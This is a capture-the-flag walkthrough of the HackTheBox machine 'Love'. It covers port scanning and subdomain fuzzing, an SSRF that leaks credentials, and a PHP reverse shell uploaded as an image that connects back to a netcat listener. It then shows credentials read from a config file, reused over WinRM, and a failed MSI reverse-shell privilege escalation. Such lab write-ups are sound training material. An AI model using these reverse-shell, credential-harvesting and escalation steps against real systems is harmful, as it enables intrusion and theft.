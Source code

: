 ```yaml
---
title: "Love"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Love

![](../assets/Pasted%20image%2020250520224654.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.239
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 22:51 CEST
Nmap scan report for 10.10.10.239
Host is up (0.041s latency).
Not shown: 62980 closed tcp ports (reset), 2536 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-20T21:16:18+00:00; +21m33s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1909 - 2004
Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

`Port` `5000` is a forbidden site.

`Port` `80` is a voting system login form.

![](../assets/Pasted%20image%2020250521122957.png)

Add `love.htb` to `/etc/hosts` and, using `wfuzz`, fuzz subdomains to discover `staging`. This subdomain is already discovered by `nmap` (`ssl-cert: Subject: commonName=staging.love.htb/organizationName=V`).

```shell
$ wfuzz -c --hh 4388 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.love.htb" http://love.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://love.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000067:   200        191 L    404 W      5357 Ch     "staging"                             

Total time: 10.96540
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 454.9763
```

Add `staging.love.htb` to `/etc/hosts` and browse it.

![](../assets/Pasted%20image%2020250521123503.png)

Going to the Demo tab, we find a form with an SSRF vulnerability.
If we enter `port` `5000`, which was forbidden, now we can see some credentials.

![](../assets/Pasted%20image%2020250521123643.png)

Using `feroxbuster`, we find an `/admin` path on `port` `80`.

![](../assets/Pasted%20image%2020250521134910.png)

![](../assets/Pasted%20image%2020250521134925.png)

Using the internal `port` credentials:

![](../assets/Pasted%20image%2020250521135009.png)

![](../assets/Pasted%20image%2020250521135312.png)

## Initial Access

Inside, create a new voter and upload a PHP reverse shell as the user image.

![](../assets/Pasted%20image%2020250521160141.png)

Start a listener and open the picture.

```shell
$ sudo rlwrap nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.239] 58482
SOCKET: Shell has connected! PID: 4236
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

Get the flag:

```shell
C:\Users\Phoebe\Desktop>type user.txt
8f6bd824be4361a499bbbef404826355
```

## Privilege Escalation

Get SQL connection credentials from the site's config file.

```shell
C:\xampp\htdocs\omrs\includes>type conn.php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }
?>
```

Checking with `nxc`, these are also valid system credentials.

```shell
$ nxc winrm love.htb -u phoebe -p 'HTB#9826^(_'         
WINRM       10.10.10.239    5985   LOVE             [*] Windows 10 / Server 2019 Build 19041 (name:LOVE) (domain:Love)
WINRM       10.10.10.239    5985   LOVE             [+] Love\phoebe:HTB#9826^(_ (Pwn3d!)
```

![](../assets/Pasted%20image%2020250521162110.png)

![](../assets/Pasted%20image%2020250521164618.png)

Create an MSI reverse shell and execute it like an installer:

```shell
C:\Users\Phoebe\Documents>msiexec /quiet /qn /i reverse.msi
```

But it doesn't work. Checking the `applocker` policy:

```shell
*Evil-WinRM* PS C:\Users\Phoebe\Documents> Get-AppLockerPolicy -Effective | Select -Expandproperty rulecollections
...
PathConditions      : {%OSDRIVE%\Administration\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : e6d62a73-11da-4492-8a56-f620ba7e45d9
Name                : %OSDRIVE%\Administration\*
Description         :
UserOrGroupSid      : S-1-5-21-2955427858-187959437-2037071653-1002
Action              : Allow
```

We can execute it from that folder, but it doesn't work either.

!!! bug

    Following multiple write-ups, I tried from different folders and creating a user instead of getting a reverse shell, but nothing works...
